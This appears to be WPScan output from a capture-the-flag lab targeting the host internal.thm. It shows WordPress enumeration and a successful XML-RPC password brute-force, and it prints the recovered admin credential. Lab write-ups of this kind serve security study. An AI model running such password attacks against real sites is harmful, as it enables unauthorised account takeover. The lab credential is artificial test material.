 ```text
[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 | Found By: Rss Generator (Passive Detection)
 |  - http://internal.thm/blog/index.php/feed/, <generator>https://wordpress.org/?v=5.4.2</generator>
 |  - http://internal.thm/blog/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.4.2</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://internal.thm/wordpress/wp-content/themes/twentyseventeen/
 | Last Updated: 2020-12-09T00:00:00.000Z
 | Readme: http://internal.thm/wordpress/wp-content/themes/twentyseventeen/readme.txt
 | [!] The version is out of date, the latest version is 2.5
 | Style URL: http://internal.thm/blog/wp-content/themes/twentyseventeen/style.css?ver=20190507
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 2.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://internal.thm/blog/wp-content/themes/twentyseventeen/style.css?ver=20190507, Match: 'Version: 2.3'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:04 <========================================================> (22 / 22) 100.00% Time: 00:00:04

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / my2boys
Trying admin / marquez Time: 00:00:45 <                                                     > (3900 / 14348292)  0.02%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: <HIDDEN>

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue Mar  2 22:32:35 2021
[+] Requests Done: 3956
[+] Cached Requests: 5
[+] Data Sent: 1.884 MB
[+] Data Received: 2.585 MB
[+] Memory used: 254.047 MB
[+] Elapsed time: 00:01:01
```
